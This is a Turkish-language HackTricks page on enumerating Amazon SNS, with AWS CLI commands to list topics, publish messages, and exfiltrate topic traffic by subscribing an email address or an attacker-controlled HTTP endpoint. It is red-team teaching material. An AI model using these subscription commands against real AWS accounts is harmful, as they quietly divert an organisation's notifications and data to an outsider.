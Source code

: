 # AWS - SNS Enum

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) **tam yönetilen bir mesajlaşma hizmeti** olarak tanımlanır. Hem **uygulamadan-uygulamaya** (A2A) hem de **uygulamadan-kullanıcıya** (A2P) iletişim türlerini destekler.

A2A iletişimi için anahtar özellikler arasında **yayınla/abone ol (pub/sub) mekanizmaları** bulunur. Bu mekanizmalar, yüksek verimli, **itme tabanlı, çoktan çoğa mesajlaşmayı** mümkün kılan **konuları** tanıtır. Bu özellik, dağıtık sistemler, mikro hizmetler ve olay odaklı sunucusuz mimariler içeren senaryolarda oldukça avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistemleri yelpazesine** verimli bir şekilde dağıtabilir, bu da fanout mesajlaşma modelini kolaylaştırır.

### **SQS ile Farkı**

**SQS**, mesajların **tek bir tüketici** tarafından işlendiği **kuyruk tabanlı** bir hizmettir. **En az bir kez teslim** sağlar, standart ve FIFO kuyruklarını destekler ve mesajların yeniden deneme ve gecikmeli işleme için tutulmasına izin verir.\
Öte yandan, **SNS**, mesajları **birden fazla aboneye** aynı anda yayınlayarak **birden çoğa** iletişimi mümkün kılan **yayınla/abone ol tabanlı bir hizmettir**. **E-posta, SMS, Lambda işlevleri ve HTTP/HTTPS gibi çeşitli abonelik uç noktalarını** destekler ve hedeflenmiş mesaj teslimi için filtreleme mekanizmaları sağlar.\
Her iki hizmet de dağıtık sistemlerde bileşenler arasında ayrışmayı mümkün kılarken, SQS kuyruklu iletişime odaklanır ve SNS olay odaklı, fan-out iletişim modellerini vurgular.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**FIFO türünde bir konu** ise, yalnızca **SQS** protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` bölgeyi içeriyor olsa bile, doğru bölgeyi **`--region`** içinde belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığını belirten bir hata alırsınız ama sorun bölgedir.
{% endhint %}

#### Kimlik Doğrulaması Olmayan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Ayrıcalık Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Sömürü Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Kalıcılık

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) üzerinde bizi takip edin.
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}

